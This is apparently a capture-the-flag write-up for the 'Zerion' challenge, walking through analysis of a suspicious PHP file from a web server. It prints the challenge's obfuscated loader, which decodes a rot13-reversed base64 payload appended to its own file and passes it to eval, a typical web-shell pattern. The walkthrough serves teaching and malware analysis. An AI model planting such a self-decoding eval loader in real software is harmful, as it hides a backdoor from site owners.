


# Zerion

## We observed some odd network traffic, and found this file on our web server... can you find the strange domains that our systems are reaching out to?

A file is attached to the challenge.

---


First download the file

What is this file ? I opened with VSCode and fount out it's a PHP file with a very long string after the code (let's name it `VeryLongString` for readability).





VeryLongString start with "==", Base64 always ends with that so we have a small hint that the long string is probably reversed. We need to confirm that but let's keep it for later.


### Very basic code analysis

This isn't very readable but it's probably made on purpose to scare us, let's beautify it a little.

```php

<?php 

$L66Rgr=explode(base64_decode("Pz4="),file_get_contents(__FILE__)); 

$L6CRgr=array(base64_decode("L3gvaQ=="),base64_decode("eA=="),base64_decode(strrev(str_rot13($L66Rgr[1]))));

$L7CRgr = "d6d666e70e43a3aeaec1be01341d9f9d";

preg_replace($L6CRgr[0],serialize(eval($L6CRgr[2])),$L6CRgr[1]);exit();

?>


```


First line is a variable. Reading the php doc about `explode()` I know that it returns an array. In this case it's an array containing a decoded Base64 String on first position and VeryLongString on the second position.

So basically, the first line is: 

```php 
$L66Rgr=explode(['<?', 'VeryLongString'])
```

Second line is another variable. It is also an array containing 3 Strings. The 2 first ones are also decoded Base64 but the last one is very interesting.

Basically the 3rd String is a succession of manipulations on the VeryLongString that is contained in the first array.

1. First it applies `str_rot13()` which is a Caesar cipher, you just replace each letter by the one 13 steps after it in the alphabet. (example: a=n)
2. After that it applies `strrev()` which is just reverses the String (confirmation of the hint found earlier)
3. Finally it decodes the base64

Let's do it!


After doing all the operations on `VeryLongString` we find out it's another php file. 

Doing a basic research (CTRL+F) in the file we can find the flag! 


